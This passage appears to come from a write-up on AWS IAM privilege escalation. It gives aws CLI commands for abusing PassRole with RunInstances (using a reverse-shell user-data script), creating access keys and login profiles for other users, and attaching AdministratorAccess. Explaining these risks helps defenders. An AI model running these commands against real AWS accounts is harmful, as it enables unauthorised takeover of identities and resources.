 Users with both iam:PassRole and ec2:RunInstances can spin up a new EC2 instance they have access to using any existing instance profile. The user can then use the AWS keys associated with this instance to gain permission to perform any action the instance can. Example:

```
aws ec2 run-instances --image-id $IMAGE_ID \
	--instance-type $INSTANCE_TYPE \
	--iam-instance-profile Name=$TARGET_INSTANCE_PROFILE \
	--user-data $REVERSE_SHELL_SCRIPT
```

Note that GuardDuty will trigger if EC2 instance keys are used outside of the instance itself.

## Create a User Access Key

Users with the iam:CreateAccessKey permission can create (and then view) access keys. If this permission is applied to _other_ users, then the malicious user can use this to effectively escalate their own privileges (by acting as another use with more extensive permissions). Example:

```
aws iam create-access-key --user-name $TARGET_USER
```

Note that users can have at most two sets of access keys associated with them.

## Create New Login Profiles

A user with the iam:CreateLoginProfile permission on _other_ users can create a password for users that have not yet logged into the AWS Console, thus assuming their identity. Example:

```
aws iam create-login-profile --user-name $TARGET_USER \
	--password $NEW_PASSWORD --no-password-reset-required
```

This is a pretty targeted attack that requires a lot of special conditions, so I’m not sure how much of a risk it really is.

## Update an Existing Login Profile

Same as the above, but allows a user with the iam:UpdateLoginProfile permission on _other_ users to assume their identities _after_ they’ve already logged in. Example:

```
aws iam update-login-profile --user-name $TARGET_USER \
	--password $NEW_PASSWORD --no-password-reset-required
```

This seems like a more realistic thing to worry about than the last vulnerability.

## Attach a Policy to a User

The iam:AttachUserPolicy permission allows policies to be attached to _other_ users. Including themselves. Example:

```
aws iam attach-user-policy --user-name $TARGET_USER \
	--policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

